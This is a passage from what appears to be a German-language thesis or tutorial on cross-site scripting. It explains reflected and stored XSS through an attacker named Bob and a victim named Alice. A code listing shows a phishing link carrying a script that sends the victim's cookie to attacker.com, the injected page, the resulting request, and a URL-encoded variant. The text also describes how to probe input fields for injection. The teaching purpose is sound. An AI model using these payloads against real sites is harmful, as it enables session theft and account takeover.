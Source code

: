 \begin{lstlisting}[caption={Beispiel für reflected XSS Attacke},label=reflected_xss_example]
/*
	Der Angreifer erstellt einen besonders hinterhaeltigen Schadcode und platziert ihn als Teil einer Suchanfrage.
*/

Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
	<tr> Table of Search Results
	...
	</tr>
</html>

GET "http://attacker.com/?cookie=user-cookie"

/*
	Alternative Variante mit kodierter URL
*/
Hey user, check this out: "http://website.com/search?keyword=3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%3d%2019%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%2e%63%6f%6d%2f%3f%63%6f%6f%6b%69%65%3d%2019%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3c%2f%73%63%72%69%70%74%3e"
\end{lstlisting}


Wenn auch nur einer von tausenden Empfänger dieser E-Mail den Link klickt, ist Bob, der Täter erfolgreich. Alice, die Nutzerin wird auf die Forumseite weitergeleitet, auf der der schadhafte JavaScript Code dann vom Web-Browser ausgeführt wird.

\subsubsection{stored XSS – persistentes XSS}
\label{subsubsection:stored_XSS}

Beim stored bzw. persistenten, sagt der Name schon aus wie es funtioniert es wird gespeichert und ist beständig. Bei dieser Art von XSS werden die schädlichen Skripte auf dem Webserver gespeichert und bei jedem Aufruf durch einen Client ausgeliefert. Zu diesem Zweck werden solche Webanwendungen für den Angriff ausgewählt, die Benutzerdaten serverseitig speichern und anschließend ohne Überprüfung oder Codierung ausgeben. Besonders anfällig für stored XSS sind Gästebücher, Blogs und Foren. Um eine stored XSS Attacke, oder auch persistente bzw. dauerhafte XSS Attacke erfolgreich ausführen zu können, müssen die Angreifenden zuerst eine Schwachstelle in einer Web-Anwendung finden, um dort ihren schadhaften JavaScript Code auf den Server laden zu können.
Um solche Schwachstellen zu finden, probiert Bob HTML tags wie beispielsweise \verb+<h1>Hello World!</h1>+ in etlichen Eingabefeldern wie Kommentar-, oder Suchfeldern aus. Wird dieser Tag vom Web-Browser als HTML Tag interpretiert, weiß Bob, dass er auf dieser Seite sein Skript platzieren kann. Hierzu fügt er anstatt eines \verb+h1 tags+, einen script tag in das Kommentarfeld ein.

